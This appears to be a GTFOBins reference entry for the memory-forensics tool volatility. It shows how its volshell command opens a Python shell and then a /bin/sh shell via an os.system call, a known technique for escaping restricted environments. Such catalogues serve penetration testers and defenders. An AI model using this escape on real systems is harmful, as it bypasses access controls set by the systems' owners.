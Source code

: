 description: This command requires some valid coredump file which, if not available, can be uploaded to the target. The `volshell` command spawns a [`python`](/gtfobins/python/) shell, other functions may apply.
functions:
  shell:
    - code: |
        volatility -f file.dump volshell
        __import__('os').system('/bin/sh')
---
